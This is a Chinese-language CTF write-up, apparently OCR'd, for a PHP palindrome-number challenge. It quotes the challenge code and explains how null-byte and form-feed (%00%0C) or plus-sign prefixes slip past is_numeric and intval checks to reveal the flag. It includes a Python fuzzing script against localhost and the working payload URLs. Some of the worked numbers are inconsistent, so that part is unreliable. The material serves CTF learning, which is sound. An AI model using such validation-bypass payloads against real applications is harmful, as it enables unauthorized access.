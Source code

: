 ```php
else
{
 
     $value1 = intval($req["number"]);
     $value2 = intval(strrev($req["number"]));  
 
     if($value1!=$value2){
          $info="no, this is not a palindrome number!";
     }
     else
     {
 
          if(is_palindrome_number($req["number"])){
              $info = "nice! {$value1} is a palindrome number!"; 
          }
          else
          {
             $info=$flag;
          }
     }

}
echo $info;
```

**思路分析**

```
1. 要求 is_numeric($_REQUEST['number'])  %00开头绕过
2. 要求 $req['number']==strval(intval($req['number']))
3. 要求 intval($req["number"]) == intval(strrev($req["number"]))
4. is_palindrome_number()返回False


总体来说 要令$number是回文，又要令$number不是回文，需要一个字符能勾逃逸出intval和is_numberic函数但逃逸不出is_palingdrome_number函数的字符。

可以引入\f（也就是%0c）在数字前面，来绕过最后那个is_palindrome_number函数，而对于前面的数字判断，因为intval和is_numeric都会忽略这个字符，所以不会影响

fuzzing思路：http://127.0.0.1/index.php?number%00%2B181,%2B解析后为+,也就是'+191'=='191'且intval('191+')==191
```

fuzzing脚本
```py
import requests
for i in range(256):
    url = "http://127.0.0.1/index.php?number=%00%{:02X}12321".format(i) #{:02x}十六进制输出，2位对齐左补0
    rep = requests.get(url=url)
    if 'x' in rep.text:
        print(url)
```

输出结果为
```
http://127.0.0.1/index.php?number=%00%0C12321
http://127.0.0.1/index.php?number=%00%2B12321
```
